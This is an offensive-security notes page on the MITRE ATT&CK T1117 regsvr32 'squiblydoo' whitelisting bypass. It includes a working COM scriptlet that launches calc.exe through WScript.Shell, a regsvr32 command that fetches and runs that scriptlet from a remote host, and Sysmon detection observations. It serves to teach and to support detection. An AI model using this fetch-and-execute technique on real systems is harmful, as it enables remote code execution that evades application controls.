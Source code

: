 ```yaml
---
description: regsvr32 (squiblydoo) code execution - bypass application whitelisting.
---
```


# T1117: regsvr32

## Execution

{% tabs %}
{% tab title="http://10.0.0.5/back.sct" %}
```markup
<?XML version="1.0"?>
<scriptlet>
<registration
  progid="TESTING"
  classid="{A1112221-0000-0000-3000-000DA00DABFC}" >
  <script language="JScript">
    <![CDATA[
      var foo = new ActiveXObject("WScript.Shell").Run("calc.exe"); 
    ]]>
</script>
</registration>
</scriptlet>
```
{% endtab %}
{% endtabs %}

We need to host the back.sct on a web server so we can invoke it like so:

{% tabs %}
{% tab title="attacker@victim" %}
```csharp
regsvr32.exe /s /i:http://10.0.0.5/back.sct scrobj.dll
```
{% endtab %}
{% endtabs %}

## Observations

![calc.exe spawned by regsvr32.exe](../../.gitbook/assets/regsvr32.png)

Note how regsvr32 process exits almost immediately. This means that just by looking at the list of processes on the victim machine, the evil process may not be immedialy evident... Not until you realise how it was invoked though. Sysmon commandline logging may help you detect this activity:

![](../../.gitbook/assets/regsvr32-commandline.png)

Additionally, of course sysmon will show regsvr32 establishing a network connection:

![](../../.gitbook/assets/regsvr32-network.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1117" %}

